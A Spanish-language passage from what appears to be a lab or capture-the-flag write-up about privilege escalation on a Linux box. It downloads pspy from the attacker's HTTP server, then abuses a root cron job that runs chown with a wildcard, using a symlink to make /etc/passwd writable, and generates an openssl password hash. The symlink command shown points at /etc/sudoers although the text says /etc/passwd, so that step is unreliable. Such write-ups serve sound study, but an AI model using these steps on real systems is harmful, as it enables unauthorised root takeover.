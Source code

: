 Utilizo pspy para monitorerar procesos que se estén ejecutando en el sistema sin necesidad de ser usuario root

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
bash-4.4$ wget http://192.168.2.133/pspy
--2025-02-04 17:35:10--  http://192.168.2.133/pspy
Connecting to 192.168.2.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy'
```

```bash
bash-4.4$ chmod +x pspy
```

Con pspy observo que el usuario root ejecuta una tarea, la cual es /usr/share/scripts/chown.sh, algo que es bastante sospechoso

```bash
2025/02/04 17:40:02 CMD: UID=0     PID=23382  | /bin/bash /usr/share/scripts/chown.sh
```

Visualizo el script chown.sh y observo que se está asignando con chown propietario rocky y grupo apache a todos los archivo de la carpeta public_html alojada en /home/rocky

```bash
bash-4.4$ cat /usr/share/scripts/chown.sh 
chown rocky:apache /home/rocky/public_html/*
```

Puedo crear un enlace simbólico que apunte a /etc/passwd, esto provocará que cuando root ejecute la tarea chown.sh se asigne propietario rocky y grupo apache al archivo passwd

```bash
ln -s /etc/sudoers sudoers
```

Tras esperar un rato se ejecuta el script chown.sh y se otorga propietario rocky y grupo apache al fichero de configuración passwd, donde apache que es el grupo y lo que me interesa tiene permisos de escritura

```bash
bash-4.4$ ls -l /etc/passwd
-rwxrwxr-x. 1 rocky apache 1549 May 29  2021 /etc/passwd
```

Utilizo openssl para generar un contraseña, la cual será 1234

```bash
bash-4.4$ openssl passwd 
Password: 
Verifying - Password: 
mHzPV7z40vgRk
```
